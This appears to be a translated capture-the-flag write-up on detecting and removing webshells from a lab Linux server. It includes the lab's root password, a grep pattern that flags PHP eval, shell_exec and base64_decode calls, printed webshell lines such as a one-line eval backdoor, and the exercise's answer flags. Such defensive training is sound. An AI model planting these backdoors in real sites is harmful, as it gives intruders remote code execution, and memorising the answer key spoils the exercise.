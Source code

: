 # Emergency response-Webshell check and kill

## Overview
- Target machine name: `Webshell`
- Target machine account password: `root`/`xjwebshell`
- Question information
  - `flag` inside the hacker `webshell`
  - What tool is used by hackers for `shell`, `github` address`md5`
  - Hacker hides the full path of `shell``md5`
  - Hackers can kill horses without killing the horse's full path `md5`


## analyze

First, simply check and kill `Webshell` and found four Trojans. The first two are `Webshell` generated by `Godzilla`. In `/var/www/html/include/gz.php`, there is a string suspected to be `flag` in the comment, and

```bash
find /var/www/html -name "*.php" | xargs egrep 'assert|eval|phpinfo\(\)|\(base64_decoolcode|shell_exec|passthru|file_put_contents\(\.\*\$|base64_decode\('
```

```bash
/var/www/html/include/gz.php: eval($payload);
/var/www/html/include/Db/.Mysqli.php: eval($payload);
/var/www/html/wap/top.php:$fun = base64_decode($_GET['func']);
/var/www/html/shell.php:<?php phpinfo();@eval($_REQUEST[1]);?>
```

![](images/1.png)

`/var/www/html/include/Db/.Mysqli.php` is the hidden `Webshell`, and `/var/www/html/wap/top.php` is to avoid killing `Webshell`.

![](images/2.png)

## Flag

- `flag` inside the hacker `webshell`: `flag{027ccd04-5065-48b6-a32d-77c704a5e26d}`
- What tool is used by hackers to `shell`, `github` address`md5`:`flag{39392de3218c333f794befef07ac9257}`
- Hacker hides `md5` of the full path of `shell`:`flag{aebac0e58cd6c5fad1695ee4d1ac1919}`
- Hackers do not kill the horse's full path `md5`:`flag{eeff2eabfd9b7a6d26fc1a53d3f7d1de}`